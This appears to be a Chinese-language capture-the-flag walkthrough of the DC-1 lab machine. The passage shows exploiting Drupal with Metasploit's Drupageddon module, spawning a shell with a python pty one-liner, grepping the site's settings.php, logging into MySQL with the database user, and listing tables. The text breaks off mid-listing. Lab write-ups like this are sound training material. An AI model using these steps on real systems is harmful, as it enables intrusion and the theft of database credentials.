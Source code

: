 发现80端口，且运行的是Drupal

## 0x03 漏洞利用

使用浏览器访问目标机80端口，确定运行Drupal

Drupal存在已知的可利用漏洞：[已知Drupal漏洞](../../web/cms/#drupal)，使用msf搜索drupal

![dc1.0](/assets/img/dc1.0.png)

尝试使用后，使用 `exploit/multi/http/drupal_drupageddon` 获得metaerpreter shell

![image-20210903095826691](/assets/img/image-20210903095826691.png)

### flag1

执行`ls`发现flag1.txt，查看内容

![image-20210903100132779](/assets/img/image-20210903100132779.png)

### flag2

根据flag1的内容，flag可能在drupal的配置文件中，执行`shell`获取shell后，执行`grep -Rn "flag2" *`发现flag2在`sites/default/settings.php`第5行，查看flag

![image-20210903102601943](/assets/img/image-20210903102601943.png)

### flag3

flag2提示要通过认证，但是暴力破解不是唯一的方法。配置文件flag2的下面就是数据库配置，考虑通过进入数据库查看账号密码。

获取交互shell

`python -c 'import pty; pty.spawn("/bin/sh")'`

通过`mysql -u dbuser -p`链接数据库

![image-20210903105023673](/assets/img/image-20210903105023673.png)

进入drupaldb库，查看所有表

`use drupaldb`

`show tables`

```
+-----------------------------+
| Tables_in_drupaldb          |
+-----------------------------+
| actions                     |
| authmap                     |
| batch                       |
| block                       |
| block_custom                |
| block_node_type             |
| block_role                  |
| blocked_ips                 |
| cache                       |
| cache_block                 |
| cache_bootstrap             |
| cache_field                 |
| cache_filter                |
| cache_form                  |
| cache_image                 |
| cache_menu                  |
| cache_page                  |
| cache_path                  |
```